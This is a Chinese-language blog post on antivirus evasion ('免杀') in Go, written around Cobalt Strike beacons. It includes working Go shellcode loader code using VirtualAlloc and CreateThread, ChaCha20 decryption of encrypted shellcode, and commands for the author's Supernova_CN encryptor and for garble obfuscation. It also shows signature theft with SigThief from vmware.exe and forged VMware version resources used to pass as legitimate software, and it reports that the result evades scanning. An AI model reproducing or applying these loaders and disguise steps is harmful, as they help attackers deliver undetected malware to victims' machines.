免杀与 golang 实现

- - -

# 免杀与 golang 实现

本文从二进制文件的熵值入手，探讨了免杀理论和 Golang 免杀的实现。同时，开发了两个工具，分别是 [EntropyCalc\_Go](https://github.com/yutianqaq/EntropyCalc_Go) ，用于计算和观察二进制程序各个部分的熵值变化，以及 [Supernova\_CN](https://github.com/yutianqaq/Supernova_CN) 将用于生成几种编码加密方式（CHACHA20、B64XOR、B64RC4、B64AES、B64CHACHA20）。

在二进制文件中添加资源文件或图标，可以有效降低文件的熵值，使其看起来更像一个合法的应用程序。

还以 Supernova 中的 chacha20 加密方式为例子，实现 Golang 版本的 Shellcode 加载器。以及在编译时添加图标、详细信息的方式。结合这两个工具和本文的方法，可以方便地生成加密的 Shellcode，并生成解密的代码，结合不同的加载方式将实现有效的免杀效果。

# 熵值

根据 [Threat Hunting with File Entropy – Practical Security Analytics LLC](https://practicalsecurityanalytics.com/file-entropy/)  
可以得到一般软件的熵值为 4.8 - 7.2 之间，而恶意软件熵值会大于 7.2。

根据 [https://rosettacode.org/wiki/Entropy#Go](https://rosettacode.org/wiki/Entropy#Go) 中的计算公式，可以使用 Go 来实现熵值的计算。

```plain
package main

import (
    "debug/pe"
    "flag"
    "fmt"
    "io"
    "log"
    "math"
    "os"
)

func calculateEntropy(buffer []byte) float64 {
    l := float64(len(buffer))
    m := map[byte]float64{}
    for _, b := range buffer {
        m[b]++
    }

    var hm float64
    for _, c := range m {
        hm += c * math.Log2(c)
    }

    return math.Log2(l) - hm/l
}

func calculateFileEntropy(filename string) {
    fileBuffer, err := os.ReadFile(filename)
    if err != nil {
        log.Fatal(err)
    }

    fileEntropy := calculateEntropy(fileBuffer)

    fmt.Printf("Entropy of \033[36m%s \033[0m as a whole file is: ", filename)

    if fileEntropy >= 5.6 && fileEntropy <= 6.8 {
        fmt.Printf("\033[32m%f\033[0m\n", fileEntropy) // Green - legitimate
    } else if fileEntropy > 7.2 && fileEntropy <= 8.0 {
        fmt.Printf("\033[31m%f\033[0m\n", fileEntropy) // Red - malicious
    } else {
        fmt.Printf("%f\n", fileEntropy)
    }
}

func calculatePESectionEntropy(filename string) {
    file, err := os.Open(filename)
    if err != nil {
        log.Fatal(err)
    }
    defer file.Close()

    filePE, err := pe.NewFile(file)
    if err != nil {
        log.Fatal(err)
    }

    calculateFileEntropy(filename)

    fmt.Printf("[i] Parsing \033[36m%s\033[0m 's PE Section Headers ...\n", filename)

    colorIndex := 0
    colors := []string{"\033[33m", "\033[32m", "\033[36m", "\033[35m", "\033[34m"}

    for _, section := range filePE.Sections {
        sectionName := string(section.Name[:])
        sectionSize := section.Size

        switch sectionName {
        case ".text", ".data", ".rdata", ".pdata", ".xdata", ".CRT", ".rsrc", ".reloc":
            sectionContent := make([]byte, sectionSize)
            _, err := file.Seek(int64(section.Offset), 0)
            if err != nil {
                log.Fatal(err)
            }
            _, err = io.ReadFull(file, sectionContent)
            if err != nil {
                log.Fatal(err)
            }

            sectionEntropy := calculateEntropy(sectionContent)

            color := colors[colorIndex]
            colorIndex = (colorIndex + 1) % len(colors)

            fmt.Printf("\t>>> %s%s%s Scored Entropy Of Value: %f\033[0m\n", color, "\""+sectionName+"\"", color, sectionEntropy)
        }
    }

}

func main() {
    filename := flag.String("file", "", "File to calculate entropy")
    flag.Parse()

    if *filename == "" {
        flag.Usage()
        return
    }

    file, err := os.Open(*filename)
    if err != nil {
        log.Fatal(err)
    }
    defer file.Close()

    _, err = pe.NewFile(file)
    if err == nil {
        calculatePESectionEntropy(*filename)
    } else {
        calculateFileEntropy(*filename)
    }
}
```

从下图可以看到 Cobalt Strike 默认 beacon 熵值为 7.53。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003313-173a9d5a-c37b-1.png)

而一些合法软件的熵值在 4.8 - 7.2 之间

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003328-204e7ace-c37b-1.png)

> 红色为恶意，绿色为合法，白色为其他。一般二进制熵值高是因为做了压缩或加密

对比程序的节，可以看到 Cobalt Strike 默认 beacon 是没有 .rsrc 节。.rsrc 节是用来存储资源文件的（包括图标、版本信息等）。

# 通过添加资源降低熵值

## 图标添加

我们可以通过添加图标信息来降低熵值。对于没有源码的程序可以使用 Resource Hacker 来添加图标。

**最终结果**  
从下图可以看到在添加图标资源后多了一个 .rsrc 节，所以添加合适的图标可以降低熵值。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003339-26b074ee-c37b-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003345-2a48ea50-c37b-1.png)

还可以添加版权信息、签名来伪装成一个合法的程序。

## 复制签名信息

签名复制可以使用 [https://github.com/secretsquirrel/SigThief](https://github.com/secretsquirrel/SigThief)

```plain
python .\sigthief.py -i 有签名的程序 -t 你的程序 -o 输出的名字
python .\sigthief.py -i .\vmware.exe -t .\MYRAJIGK.go.exe -o hello.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003353-2f197270-c37b-1.png)

## 添加版权信息

使用 打开 要添加版权信息的程序，点击倒数第四个图标，点击下拉框到最下面，选择 VERSION\_INFO，点击 Add

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003400-333f58b0-c37b-1.png)

接着修改合适的信息，点击绿色按钮运行脚本。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003406-36ad5e66-c37b-1.png)

保存后再次打开，对应的信息已经出现在详细信息属性中。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003411-39e581ee-c37b-1.png)

经过以上几个步骤后，会发现还是会被杀。  
这是因为 Cobalt Strike 的 Shellcode 已经被各大杀软记录了特征。  
对比可执行的 EXE 与原始 Shellcode 文件，可以看到 Shellcode 部分占比较大。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003417-3d88fa10-c37b-1.png)

因此在免杀过程中处理好 Shellcode 以及敏感字符可以规避很多静态规则

## Shellcode 处理

根据，通过对 Shellcode 进行 Base64 编码可以大大降低熵值

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003424-416159fc-c37b-1.png)

多次 Base64 编码也可以降低熵值，但随之而来的是文件增大，从原始的 399 kb 变为了 985 kb

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003430-453a14ce-c37b-1.png)

仅进行 Base64 编码不足以保护 Shellcode，因此更好的方案是对 Shellcode 做多字节异或、AES、RC4 等加密。

将原始 Shellcode 加密后，可以看到熵值变大了。高熵的 Shellcode 不利于整体文件的的熵，所以套一层 Base64 会好一些。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003440-4b73a954-c37b-1.png)

加入 base64 之后的效果，降低了约 1.2，属于合法软件熵值内

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003446-4f0ee4fc-c37b-1.png)

虽然文件增大了 100kb 但这是值得的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003458-5602feb0-c37b-1.png)

# Golang 免杀

> 免杀要做的是将程序的行为（静态、动态、流量）像是正常软件

## 执行 Shellcode

这是一种最基础的执行方式，Shellcode 没有编码、加密

```plain
cat loader1.go 
package main

import (
        "unsafe"
        "golang.org/x/sys/windows"
)

var (
        kernel32      = windows.NewLazySystemDLL("kernel32.dll")
        rtlCopyMemory = kernel32.NewProc("RtlCopyMemory")
        createThread  = kernel32.NewProc("CreateThread")
)

func main() {
        shellcode := []byte{0xfc, ...[snip]..., 0x00}
        shellcodeExec, _ := windows.VirtualAlloc(
                uintptr(0),
                uintptr(len(shellcode)),
                windows.MEM_COMMIT|windows.MEM_RESERVE,
                windows.PAGE_READWRITE)

        rtlCopyMemory.Call(
                shellcodeExec,
                (uintptr)(unsafe.Pointer(&shellcode[0])),
                uintptr(len(shellcode)))

        var oldProtect uint32
        windows.VirtualProtect(
                shellcodeExec,
                uintptr(len(shellcode)),
                windows.PAGE_EXECUTE_READ,
                &oldProtect)

        hThread, _, _ := createThread.Call(
                0,
                0,
                shellcodeExec,
                uintptr(0),
                0,
                0)

        windows.WaitForSingleObject(
                windows.Handle(hThread),
                windows.INFINITE)

}

go mod init loader1

go mod tidy        

CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build
```

安装依赖，并编译后。杀软直接报毒

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003506-5ac7bf26-c37b-1.png)  
这是因为 Shellcode 被特征了，要绕过需要对 Shellcode 做转换（编码、加密、压缩等）

## 保护你的 Shellcode

为了方便的加密 Shellcode，我二开了 [nickvourd/Supernova: Real fucking shellcode encryption tool](https://github.com/nickvourd/Supernova) ，为这个工具增加了 CHACHA20, B64XOR, B64RC4, B64AES, B64CHACHA20 等加密方式，增加了 Golang guide 的支持。新的工具在 [yutianqaq/Supernova\_CN: Supernova 的中文版和扩展了一些加密方式（ROT, XOR, RC4, AES, CHACHA20, B64XOR, B64RC4, B64AES, B64CHACHA20）](https://github.com/yutianqaq/Supernova_CN)

```plain
./Supernova                                                                               


███████╗██╗   ██╗██████╗ ███████╗██████╗ ███╗   ██╗ ██████╗ ██╗   ██╗ █████╗ 
██╔════╝██║   ██║██╔══██╗██╔════╝██╔══██╗████╗  ██║██╔═══██╗██║   ██║██╔══██╗
███████╗██║   ██║██████╔╝█████╗  ██████╔╝██╔██╗ ██║██║   ██║██║   ██║███████║
╚════██║██║   ██║██╔═══╝ ██╔══╝  ██╔══██╗██║╚██╗██║██║   ██║╚██╗ ██╔╝██╔══██║
███████║╚██████╔╝██║     ███████╗██║  ██║██║ ╚████║╚██████╔╝ ╚████╔╝ ██║  ██║
╚══════╝ ╚═════╝ ╚═╝     ╚══════╝╚═╝  ╚═╝╚═╝  ╚═══╝ ╚═════╝   ╚═══╝  ╚═╝  ╚═╝

Supernova v1.0.0 - 真正的 Shellcode 加密器。
Supernova 是一个开源工具，受 MIT 许可证保护。
由@nickvourd、@0xvm、@Papadope9 和@yutianqaq 用<3 编写...
原版请访问 https://github.com/nickvourd/Supernova 了解更多信息...
汉化版本 https://github.com/yutianqaq/Supernova_CN

Usage of Suprenova.exe:
  -d    开启 Debug 模式
  -enc string
        Shellcode 加密方式 (例如，ROT, XOR, RC4, AES, CHACHA20, B64XOR, B64RC4, B64AES, B64CHACHA20)
  -guide
        开启引导模式
  -i string
        64 位原始格式 Shellcode 的路径
  -k int
        加密的密钥长度 (default 1)
  -lang string
        转换 (Nim, Rust, C, CSharp, Go) 格式的 Shellcode
  -o string
        输出到文件
  -v string
        Shellcode 的变量名称 (default "shellcode")
  -version
        展示 Supernova 当前的版本
```

通过此命令可以快速生成 rc4 加密方式 Shellcode

```plain
./Supernova -enc rc4 -i calc.bin -k 16 -lang go -o calc_rc4.bin -guide
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003514-5f7b997a-c37b-1.png)

解密验证

```plain
go mod inti rc4
go build
./rc4                                                                 
RC4 Decrypted Payload:
0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, ...[snip]... 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x2E, 0x65, 0x78, 0x65, 0x00
```

## 武器化部分

有了加密和解密 Shellcode 的方法，现在只需将 Shellcode 解密后，复制到内存中，再通过 api 调用就好了。

### 通过 CreateThread 调用 Shellcode

使用生成解密部分的 golang 代码

```plain
./Supernova -enc chacha20 -i calc.bin -lang go -o calc_cc20.bin -guide
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003522-6437ff12-c37b-1.png)

```plain
package main

import (
    "golang.org/x/crypto/chacha20poly1305"
    "fmt"
)

func Chacha20Decrypt(data []byte, key []byte) ([]byte) {
    aead, err := chacha20poly1305.NewX(key)


    nonceSize := aead.NonceSize()

    if len(data) < nonceSize {
        return nil
    }

    // Split nonce and ciphertext.
    nonce, ciphertext := data[:nonceSize], data[nonceSize:]

    // Decrypt the message and check it wasn't tampered with.
    plaintext, err := aead.Open(nil, nonce, ciphertext, nil)
    if err != nil {
        if err.Error() == "chacha20poly1305: message authentication failed" {
            return nil
        }

        return nil
    }

    return plaintext
}


func main() {
    shellcode := []byte{ 0x28,...[snip]... 0x92 }
    key := []byte { 0xfa, ...[snip]... 0xce }

    decryptedShellcode := Chacha20Decrypt(shellcode, key)

    fmt.Print("Chacha20 Decrypted Payload:\n")
    for i, b := range decryptedShellcode {
        fmt.Printf("0x%02X", b)
        if i < len(decryptedShellcode)-1 {
            fmt.Print(", ")
        }
    }
    fmt.Println()

}
```

解密部分已经写好，现在只需要将加载器部分代码加入即可

此时再次扫描，已经没有风险项了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003529-68872192-c37b-1.png)

更多加载方式可以参考 [https://github.com/xiecat/AlternativeShellcodeExec-Go/tree/master](https://github.com/xiecat/AlternativeShellcodeExec-Go/tree/master)

## Golang 编译参数 - OPSEC

### 去除路径

在不添加参数的情况下，编译的程序会自带目录，例如

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003535-6c2c65be-c37b-1.png)

可以通过 `-trimpath` 参数来去除路径。效果如下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003541-6f4dc364-c37b-1.png)

### 缩小文件

通过 `-ldflags="-s -w"`，参数可以缩小编译后的文件大小

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003548-7386636e-c37b-1.png)

### 隐藏 DOS 框

使用以下命令编译可以隐藏 DOS 黑框框

```plain
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -trimpath -ldflags="-s -w -H=windowsgui"
```

## garble

还可以使用 garble 来混淆

```plain
go install mvdan.cc/garble@latest

CGO_ENABLED=0 GOOS=windows GOARCH=amd64  garble -seed=random build -ldflags "-s -w -H=windowsgui" -trimpath -o loader2_garble.exe
```

几个 garble 编译命令的组合

```plain
CGO_ENABLED=0 GOOS=windows GOARCH=amd64  garble -tiny -literals build -ldflags "-s -w -H=windowsgui" -trimpath -o loader2_garble.exe

CGO_ENABLED=0 GOOS=windows GOARCH=amd64  garble -literals build -ldflags "-s -w -H=windowsgui" -trimpath -o loader2_garble.exe

CGO_ENABLED=0 GOOS=windows GOARCH=amd64  garble -tiny build -ldflags "-s -w -H=windowsgui" -trimpath -o loader2_garble.exe
```

同时这个 grable 还可以用来混淆一些工具，比如 fscan 等等

## 编译时添加图标、详细信息（伪装为合法软件）

之前是使用的 Resource Hacker 对可执行程序添加资源的方法。如果有源码，我们在编译阶段就可以添加信息。

制作需要一个 icon 图标、一个 rc 文件

**main.rc**  
根据情况修改后再使用

```plain
1 VERSIONINFO
FILEVERSION 17,5,0,49595

BEGIN
    BLOCK "StringFileInfo"
    BEGIN
        BLOCK "040904B0"
        BEGIN
            VALUE "FileDescription", "VMware Workstation"
            VALUE "FileVersion", "17.5.0.49595"
            VALUE "LegalCopyright", "Copyright (C) 1998-2023 VMware, Inc."
            VALUE "OriginalFilename", "main.exe"
            VALUE "ProductName", "VMware Workstation"
            VALUE "ProductVersion", "17.5.0 build-22583795"
        END
    END
    BLOCK "VarFileInfo"
    BEGIN
            VALUE "Translation", 0x0409, 0x04B0
    END
END

1 ICON "icon1.ico"
```

编译为 syso 文件

```plain
└─# x86_64-w64-mingw32-windres -F pe-x86-64 main.rc -O coff -o icon.syso
```

此时再编译程序，可以看到是有图标和详细信息的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003556-78b32570-c37b-1.png)

有图标和没有图标的熵值

[](https://xzfile.aliyuncs.com/media/upload/picture/20240205003602-7bc95f18-c37b-1.png)

> 注：绿色数字为正常，红色为异常，白色是其他

## Shellcode 不同的存储方式

### 本地存储

只需要改变一行代码。运行时必须有 Shellcode 文件，可以是绝对路径或者相对的路径

```plain
shellcode, _ := os.ReadFile("./test2.bin")
```

